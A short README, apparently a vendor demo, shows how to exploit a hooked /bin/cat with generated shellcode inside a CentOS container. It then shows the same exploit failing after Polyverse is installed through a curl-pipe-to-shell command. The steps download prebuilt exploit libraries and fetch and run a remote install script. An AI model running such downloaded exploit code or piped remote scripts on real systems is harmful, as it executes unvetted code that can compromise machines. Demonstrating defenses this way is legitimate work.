 # Readhook3d Demonstration
## Allocate a Centos Environment (with curl and wget)
```
docker run --rm -it --privileged --name centos centos
yum update -y && yum install -y curl wget
```
## Download Readhook3d Components
```
wget -q -O /tmp/basehook.so https://github.com/plexsolutions/readhook/releases/download/jenkins3d/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/plexsolutions/readhook/releases/download/jenkins3d/fullhook.so
```
## Generate Shell-code and Perform Exploit
```
export shellCode=$(echo -n xyzzxMAKELOAD | LD_PRELOAD=/tmp/fullhook.so /bin/cat)
echo -n $shellCode | LD_PRELOAD=/tmp/basehook.so /bin/cat
# (Confirm an audible bell)
```
## Install Polyverse and Repeat Exploit
```
curl https://sh.polyverse.io | sh -s install vZ2v3Bo4Kbnwj9pECrLsoGDDo
yum reinstall -y \*
echo -n $shellCode | LD_PRELOAD=/tmp/basehook.so /bin/cat
# (Confirm that there is no audible bell)
```
